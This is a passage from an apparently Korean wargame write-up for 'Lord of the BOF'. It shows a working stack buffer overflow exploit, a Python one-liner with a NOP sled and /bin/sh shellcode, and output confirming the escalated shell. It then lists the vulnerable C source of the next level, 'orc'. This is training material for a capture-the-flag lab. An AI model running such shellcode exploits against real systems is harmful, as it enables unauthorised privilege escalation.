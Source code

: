 걍 뚝딱

```shell
[cobolt@localhost cobolt]$ (python -c 'print "A"*0x10+"\x10\xfb\xff\xbf"+"\x10\xfb\xff\xbf"+"\x90"*0x100+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80"';cat)|./goblin    
AAAAAAAAAAAAAAAA󽑻ÿ¿1󿿐h//shh/bin⏓ᙰ
                                 ̀ 
id
uid=502(cobolt) gid=502(cobolt) euid=503(goblin) egid=503(goblin) groups=502(cobolt)
my-pass
euid = 503
hackers proof
```





## STAGE 4 : goblin -> orc

```c
[goblin@localhost goblin]$ cat orc.c
/*
        The Lord of the BOF : The Fellowship of the BOF
        - orc
        - egghunter
*/

#include <stdio.h>
#include <stdlib.h>

extern char **environ;

main(int argc, char *argv[])
{
	char buffer[40];
	int i;

	if(argc < 2){
		printf("argv error\n");
		exit(0);
	}

	// egghunter 
	for(i=0; environ[i]; i++)
		memset(environ[i], 0, strlen(environ[i]));

	if(argv[1][47] != '\xbf')
	{
		printf("stack is still your friend.\n");
		exit(0);
	}

	strcpy(buffer, argv[1]); 
	printf("%s\n", buffer);
}
```
